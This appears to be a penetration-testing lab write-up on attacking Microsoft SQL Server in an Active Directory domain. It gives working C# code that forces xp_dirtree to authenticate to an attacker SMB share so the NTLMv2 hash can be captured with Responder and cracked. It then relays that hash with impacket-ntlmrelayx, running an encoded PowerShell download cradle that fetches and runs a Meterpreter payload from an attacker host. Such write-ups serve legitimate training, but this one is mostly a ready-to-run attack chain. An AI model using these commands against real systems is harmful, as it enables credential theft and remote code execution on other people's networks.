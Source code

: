 ## The Attack

**Premise** If we can force an SQL server to connect to an SMB share we control, the connection will include authentication data. NTLM authentication will take place and we should be able to capture the hash of the user account under whose context the SQL server is running.

**Steps**

1.  We are going to start by forcing the SQL server to perform a connection request to a SMB share on our Kali machine. We'll use the [xp_dirtree](https://www.sqlservercentral.com/blogs/how-to-use-xp_dirtree-to-list-all-files-in-a-folder) SQL procedure, which lists all files in a given folder. If we use our unprivileged access in the database to execute the _xp_dirtree_ procedure, the service account of the SQL server will attempt to list the contents of a given SMB share. If the hostname is given as an IP address, Windows will automatically revert to NTLM authentication instead of Kerberos authentication.

The code to authenticate and execute the query will be as follows:
```csharp
using System;
using System.Data.SqlClient;

namespace SQL
{
    class Program
    {
        static void Main(string[] args)
        {
            String sqlServer = "dc01.corp1.com";
            String database = "master";

            String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);
           
            try
            {
                con.Open();
                Console.WriteLine("Auth success!");
            }
            catch
            {
                Console.WriteLine("Auth failed");
                Environment.Exit(0);
            }

            String query = "EXEC master..xp_dirtree \"\\\\192.168.119.120\\\\test\";";
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            reader.Close();
            
            con.Close();
        }
    }
}
```

2.  We will now start responder to catch the NTLM share. We will run the c# application inside our victim box, and also shut down any smb connections with the responder running.

![ad=da](../../../Screenshots/ad=da.png)

The hash obtained by Responder is called a [NTLMv2](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) hash.

3.  We will finally crack the hash using JTR:

![ad-rt](../../../Screenshots/ad-rt.png)

## Relay The Hash

If we have captured the NTLM hash of a domain user that is a local administrator on a remote machine, we can perform a pass-the-hash attack and gain remote code execution. To perform this attack, we are going to use the [_Impacket_](https://github.com/SecureAuthCorp/impacket) _ntlmrelayx_ tool. We will use our previously-developed PowerShell runner to execute a Meterpreter staged payload. We first create our encoded powershell download cradle with the linux powershell utility:

```sh
pwsh
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.110/run2.ps1') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

Finally, we run the following command, to use ntlmrelayx and start a listener, and run the c# console application followed by it:

```sh
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.110.104 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADEAMQAwAC8AcgB1AG4AMgAuAHAAcwAxACcAKQAgAHwAIABJAEUAWAA='
```

This results in NTLM authentication against our Kali machine and relaying of the Net-NTLM hash.

![](../../../Screenshots/af-faw.png)

And we get a shell on the domain joined machine:

![](../../../Screenshots/cac-csc.png)